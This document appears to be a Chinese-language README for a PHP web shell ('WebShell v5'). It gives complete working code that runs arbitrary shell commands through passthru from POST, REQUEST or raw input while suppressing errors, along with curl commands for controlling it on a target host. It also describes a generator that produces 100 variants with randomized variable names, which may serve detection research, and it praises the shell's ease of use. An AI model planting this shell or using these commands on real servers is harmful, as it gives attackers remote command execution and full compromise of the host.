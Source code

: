 # WebShell v5 特性说明

## 1. 基本结构

```php
<?php
error_reporting(0);
${var_input} = $_POST['x'] ?? $_REQUEST['QNLVVcIH'] ?? file_get_contents("php://input");
if(!empty(${var_input})) {
    ob_start();
    passthru(${var_input});
    echo ob_get_clean();
}
?>
```

## 2. 特点分析

1. 代码特性
   - 错误显示抑制
   - 输出缓冲控制
   - 变量名随机化
   - 简洁的执行逻辑

2. 多种输入方式
   - POST参数 'x'
   - REQUEST参数 'QNLVVcIH'
   - 原始POST数据流（php://input）

3. 安全特性
   - 输入存在性检查
   - 错误抑制
   - 完整的输出捕获
   - 使用passthru确保命令完整执行

## 3. 连接方法

### 3.1 使用POST参数（推荐）
```bash
curl -X POST http://目标地址/shell_XX.php -d "x=whoami"
```

### 3.2 使用REQUEST参数
```bash
curl -X POST http://目标地址/shell_XX.php -d "QNLVVcIH=whoami"
```

### 3.3 使用原始POST数据
```bash
curl -X POST http://目标地址/shell_XX.php --data-binary "whoami"
```

## 4. 注意事项

1. 输入优先级
   - 首先检查POST参数'x'
   - 然后检查REQUEST参数'QNLVVcIH'
   - 最后读取原始POST数据

2. 错误处理
   - error_reporting(0)禁用错误显示
   - 命令执行前检查输入是否为空
   - 使用输出缓冲确保完整捕获输出

3. 执行特性
   - 使用passthru替代system
   - 支持所有shell命令
   - 完整的命令输出捕获
   - 支持标准输出和错误输出

## 5. 生成方式

### 5.1 代码生成
```python
python3 gen_php_webshellv5.py  # 生成100个样本
```

### 5.2 生成特点
- 随机变量名
- 固定的参数名（x和QNLVVcIH）
- 输出保存在/data/php_webshellv5/目录
- 文件名格式：shell_XX.php

## 6. 优势特点

1. 执行可靠性
   - 直接的命令执行
   - 完整的输出捕获
   - 稳定的错误处理

2. 使用便利性
   - 多种连接方式
   - 简单的参数结构
   - 清晰的输出显示

3. 代码简洁性
   - 最小化的代码结构
   - 无冗余加密层
   - 高效的执行流程 
